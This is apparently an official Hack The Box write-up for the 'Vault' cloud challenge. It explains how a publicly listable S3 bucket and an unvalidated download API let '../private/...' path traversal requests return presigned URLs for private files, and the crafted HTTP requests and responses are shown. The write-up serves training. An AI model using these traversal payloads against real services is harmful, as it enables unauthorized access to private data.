 <img src="../../assets/banner.png" style="zoom: 80%;" align=center />

<img src="../../assets/htb.png" style="zoom: 80%;" align='left' /><font size="5">Vault</font>

  4<sup>th</sup> 4 2025

  Prepared By: busfactor

  Challenge Author: busfactor

  Difficulty: <font color=green>Very Easy</font>

  Classification: Official






# Synopsis

- Vault is a Very Easy Cloud challenge that showcases a common S3 misconfiguration in a realistic web application scenario. The application hosts publicly accessible files in an S3 bucket and provides download links through an API that generates presigned URLs. While the public files are expected, the S3 bucket is also improperly configured to expose the contents of a supposedly private directory. By exploiting a path traversal flaw in the API endpoint, it’s possible to request presigned URLs for files stored in the private section of the bucket, ultimately leading to the discovery of the flag.

# Description

During the reconnaissance phase, we discovered Volnaya’s file vault. While it appears to only display public files, our intel suggests it’s also being used to store sensitive information. We need your help retrieving those files—they’re critical to our mission.

URL: http://volnaya-vault-static-website.s3-website.eu-north-1.amazonaws.com/

# Skills Required
- Basic AWS S3 knowledge
- Basic web application knowledge
- Basic API testing

# Skills Learned
- AWS S3 misconfiguration
- Path traversal vulnerability

# Solution

The challenge provides a basic web application hosted on AWS S3. It appears to function as a public vault for Volnaya, allowing users to download files from it.

When clicking the “Download” button, the application sends a request to an API. This triggers a new browser tab to open with a presigned S3 URL, such as:
`https://volnaya-vault.s3.eu-north-1.amazonaws.com/vault/public/[filename]?...`.
This reveals that files are stored in the volnaya-vault S3 bucket, specifically under the vault/public directory.

The S3 bucket is misconfigured to allow directory listing. Visiting `https://volnaya-vault.s3.eu-north-1.amazonaws.com/` in a browser shows the list of files in that directory. Surprisingly, it’s also possible to view files under the `vault/private` directory—despite it not being intended as public. However, direct downloads from `vault/private` are not possible without a valid presigned URL.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Name>volnaya-vault</Name>
  <Prefix/>
  <Marker/>
  <MaxKeys>1000</MaxKeys>
  <IsTruncated>false</IsTruncated>
  <Contents>
    <Key>vault/private/DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx</Key>
    <LastModified>2025-04-15T12:03:46.000Z</LastModified>
    <ETag>"65b77ab8075e5be2b5b5ecc30d694c04"</ETag>
    <ChecksumAlgorithm>CRC32</ChecksumAlgorithm>
    <ChecksumType>FULL_OBJECT</ChecksumType>
    <Size>8089</Size>
    <Owner>
      <ID>f1c6d364f7991f7bdaf5a6f5860b1e4890c498b2d8646aa6036e58241a55b689</ID>
    </Owner>
    <StorageClass>STANDARD</StorageClass>
  </Contents>
...
```

Trying to access these files directly in the browser will result in "AccessDenied" errors.

```xml
<Error>
  <Code>AccessDenied</Code>
  <Message>Access Denied</Message>
  <RequestId>WKQAKR0Z6A24V841</RequestId>
  <HostId>P5o8apU8XQ8VYSpps+YekXi9qo/RGEhpQR4KYcGnN8dIzxMqX3gM34vem3Rihoy2K2hleakOfkE=</HostId>
</Error>
```

Looking into the web application’s behavior, it’s possible to inspect the API request responsible for generating these presigned URLs.

```
POST /api/download HTTP/1.1
Host: volnaya-vault-lb-2115334219.eu-north-1.elb.amazonaws.com
Content-Length: 29
Content-Type: application/json

{"filename":"propaganda.png"}
```

This request includes the filename as a parameter. A test can be performed by supplying a `../` sequence in the filename to check for path traversal vulnerabilities, then requesting a known file to observe the behavior.

```
POST /api/download HTTP/1.1
Host: volnaya-vault-lb-2115334219.eu-north-1.elb.amazonaws.com
Content-Length: 29
Content-Type: application/json

{"filename":"propaganda.png/../Vehicle_Log_Update_VZ-TRK-1138.txt"}
```

A valid presigned URL is returned, indicating that the filename is being handled correctly—at least in the case of public files.

```
HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 12:17:46 GMT
Content-Type: application/json
Content-Length: 1655
Connection: keep-alive
Server: gunicorn

{
    "url": "https://volnaya-vault.s3.eu-north-1.amazonaws.com/vault/public/Vehicle_Log_Update_VZ-TRK-1138.txt?[SNIP]"
}
```

By attempting to retrieve a file located in `vault/private` using path traversal, the API still returns a presigned URL.

```
POST /api/download HTTP/1.1
Host: volnaya-vault-lb-2115334219.eu-north-1.elb.amazonaws.com
Content-Length: 29
Content-Type: application/json

{"filename":"../private/_Post-Assessment Report.pdf"}
```

This confirms that path traversal is possible and is not being properly validated.

```
HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 12:27:01 GMT
Content-Type: application/json
Content-Length: 1646
Connection: keep-alive
Server: gunicorn
Access-Control-Allow-Origin: http://volnaya-vault-static-website.s3-website.eu-north-1.amazonaws.com
Vary: Origin

{
    "url": "https://volnaya-vault.s3.eu-north-1.amazonaws.com/vault/private/_Post-Assessment%20Report.pdf?..."
}
```

The file `DIRECTORATE ALPHA & BETA FIELD OPERATIVES.docx` contains the flag.
